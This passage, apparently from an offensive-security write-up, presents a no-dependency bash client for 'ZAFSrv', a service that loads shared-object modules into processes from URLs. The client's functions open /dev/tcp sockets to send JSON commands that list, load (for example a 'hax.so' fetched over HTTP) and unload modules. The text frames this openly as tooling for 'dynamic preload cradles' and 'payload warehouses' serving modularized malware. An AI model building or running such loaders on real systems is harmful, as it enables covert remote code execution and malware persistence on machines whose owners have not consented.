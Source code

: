 Example of the no-dependency client to operate ZAFSrv, you can build your own.:

```sh
Usage: ./tools/zclient.sh <cmd> [cmd args]

Example: ./tools/zclient.sh listmod
Example: ./tools/zclient.sh loadmod http://127.0.0.1:8080/hax.so
Example: ./tools/zclient.sh unloadmod hax.so
```

```sh
listmod(){
    exec 3<>/dev/tcp/127.0.0.1/$PORT
cat<<! 1>&3
{"command": "listmod"}
!
    timeout 0.5s /bin/cat <&3
}

loadmod(){
    exec 3<>/dev/tcp/127.0.0.1/$PORT
cat<<! 1>&3
{
 "command": "loadmod",
 "args": [
       { "modurl": "$1" }
  ]
}"
!
    timeout 1s /bin/cat <&3
}
unloadmod(){
    exec 3<>/dev/tcp/127.0.0.1/$PORT
cat<<! 1>&3
{
 "command": "unloadmod",
 "args": [
       { "modname": "$1" }
  ]
}"
!
    timeout 1s /bin/cat <&3
}
```

And now you know what process `56417` is ;) 

## The Catch 22: Operationalizing Dynamic Preload Cradles

We know how to preload, we have some better ideas on how to write preloader modules, we have payload warehouses that would stealthily serve us paths to modularized malware.

```
Q: What came first: ZAF service process or the preloader?
A: Pypreload, of course.
```

